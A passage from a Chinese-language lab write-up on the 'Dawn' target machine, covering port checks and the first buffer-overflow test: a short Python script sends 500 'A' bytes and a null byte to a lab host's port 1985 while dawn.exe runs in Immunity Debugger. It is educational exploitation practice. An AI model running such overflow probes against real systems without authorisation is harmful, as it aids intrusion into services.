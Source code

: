     ![image.png](image%20112.png)
    
5. 查看当前端口
    
    可以发现增加了一个和靶机一模一样的端口，由此判断靶机上也是该服务
    
    ![image.png](image%20113.png)
    

## 测试是否存在缓冲区溢出漏洞

1. 在windows虚拟机里边测试，打开`immunity debuger` 然后运行`dawn.exe`
2. 编写测试文件，记得README里边说过要在最后加上`null`字节
    
    ```c
    cat buffer.py  
    import socket
    
    a = 'A' * 500 + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    
    假如存在缓冲区溢出漏洞那么应该`ESP`会被`A`字节覆盖
    
3. 运行文件，然后查看`immunity debuger` 
    
